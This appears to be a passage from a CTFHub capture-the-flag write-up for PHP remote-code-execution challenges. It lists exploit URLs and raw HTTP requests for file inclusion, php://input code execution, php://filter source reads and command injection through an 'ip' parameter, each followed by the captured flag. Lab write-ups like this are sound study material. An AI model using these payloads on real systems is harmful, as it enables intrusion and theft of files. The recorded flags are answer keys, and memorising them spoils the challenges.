 flag: `ctfhub{0e66b89e7ba97a96984a5b3c}`

### RCE - 文件包含

```
http://challenge-66d564295f77ed0d.sandbox.ctfhub.com:10800/?file=shell.txt&ctfhub=echo `cat /flag`;
```

flag: `ctfhub{5e5d635300ecc9ccb0c75919}`

### RCE - php://input

```http
POST /?file=php://input HTTP/1.1
Host: challenge-6a979e40b8164244.sandbox.ctfhub.com:10800
Content-Length: 30
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

<?php echo `cat /flag_8394` ?>
```

flag: `ctfhub{48b99715a1112f985f8eb8c7}`

### RCE - 读取源代码

```
http://challenge-d9abda75f9ce5b83.sandbox.ctfhub.com:10800/?file=php://filter/convert.base64-encode/resource=/flag
```

flag: `ctfhub{3f8c25a251511c66b2d7e0a3}`

### RCE - 远程包含

```http
POST /?file=php://input HTTP/1.1
Host: challenge-943b038a589c1bd9.sandbox.ctfhub.com:10800
Content-Length: 30
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

<?php echo `cat /flag` ?>
```

### RCE - 命令注入

```
http://challenge-5fd4db44e5c1be8b.sandbox.ctfhub.com:10800/?ip=127.0.0.1; rev 2335674783221.php
```

flag: `ctfhub{c63da4d8edca262d4cf0069c}`

### RCE - 过滤 cat

```
http://challenge-b8ee138fd67845e5.sandbox.ctfhub.com:10800/?ip=127.0.0.1; rev flag_550237935769.php
```

